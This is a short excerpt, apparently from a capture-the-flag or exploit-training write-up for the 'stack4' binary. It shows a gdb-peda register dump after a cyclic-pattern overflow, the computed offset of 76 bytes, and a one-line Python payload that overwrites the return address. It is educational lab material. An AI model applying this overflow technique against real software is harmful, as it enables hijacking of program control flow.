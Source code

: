 ```
[----------------------------------registers-----------------------------------]
EAX: 0xffffd120 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x0 
ECX: 0xf7faa580 --> 0xfbad2288 
EDX: 0xffffd184 --> 0x0 
ESI: 0xf7faa000 --> 0x1dfd6c 
EDI: 0xf7faa000 --> 0x1dfd6c 
EBP: 0x65414149 ('IAAe')
ESP: 0xffffd170 ("AJAAfAA5AAKAAgAA6AAL")
EIP: 0x41344141 ('AA4A')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```

```
gdb-peda$ pattern offset AA4A
AA4A found at offset: 76
```

### Exploit Code
```

python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4
```
